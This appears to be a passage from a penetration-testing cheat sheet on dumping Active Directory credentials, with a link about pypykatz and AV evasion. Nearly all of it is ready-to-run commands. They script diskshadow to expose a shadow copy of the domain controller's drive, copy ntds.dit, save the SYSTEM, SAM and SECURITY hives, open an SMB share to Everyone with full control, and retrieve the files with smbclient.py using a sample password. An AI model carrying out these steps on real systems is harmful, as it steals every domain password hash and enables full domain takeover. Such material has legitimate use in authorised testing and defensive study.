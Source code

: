 ### pypykatz

* [skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)




## NTDS

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create shadow volume:

```
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

```
// add_vol.txt
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```

Exfiltrate over SMB:

```
mkdir C:\smb_pentest
copy w:\Windows\NTDS\ntds.dit C:\smb_pentest\ntds.dit
cmd /c reg.exe save hklm\system C:\smb_pentest\system.hive
cmd /c reg.exe save hklm\sam C:\smb_pentest\sam.hive
cmd /c reg.exe save hklm\security C:\smb_pentest\security.hive
cmd /c net share pentest=c:\smb_pentest /GRANT:"Everyone,FULL"

$ smbclient.py 'j1v37u2k3y:Passw0rd!@127.0.0.1'
# use pentest
# get ntds.dit
# get system.hive
# get sam.hive
# get security.hive
```
